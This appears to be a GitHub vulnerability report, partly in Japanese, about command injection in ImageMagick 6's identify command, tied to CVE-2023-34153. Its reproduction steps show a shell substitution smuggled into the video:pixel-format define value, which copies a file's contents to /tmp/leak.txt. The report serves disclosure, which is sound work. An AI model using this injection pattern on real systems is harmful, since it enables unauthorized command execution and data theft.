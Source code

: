 6系のバージョンで確認する場合のメモ

### ImageMagick version
```
convert -version                                                                                
Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org
```
7以降はmagick <option>を使用、6系はconvert,dentifyなどのコマンドを使う。（すでにある7.0のイシューと違うのはそこだけ）。
  
ImageMagick 7.0 use command magick <option> insted of  6.0 convert,dentify,etc.


### Operating system
Linux


### Steps to Reproduce
Given a normal video file, namely test.mov, the following demonstrates how command injection happens.

  
```
/home/test/exp
➜ echo 'deadbeef' > test.txt

/home/test/exp
➜ identify -define video:pixel-format="rgba `cat test.txt > /tmp/leak.txt`" test.mov >info.log 

/home/test/exp
➜ tail info.log
test.mov[20] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.028
test.mov[21] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.026
test.mov[22] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.024
test.mov[23] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.022
test.mov[24] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.021
test.mov[25] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.018
test.mov[26] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.017
test.mov[27] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.014
test.mov[28] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.013
test.mov[29] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 33.0075MiB 0.020u 0:00.011

/home/test/exp
➜ cat /tmp/leak.txt
deadbeef
```

### Appendix
https://github.com/advisories/GHSA-7c5r-cghm-f2jx

https://github.com/ImageMagick/ImageMagick/issues/6338

https://nvd.nist.gov/vuln/detail/CVE-2023-34153

https://imagemagick.org/script/identify.php

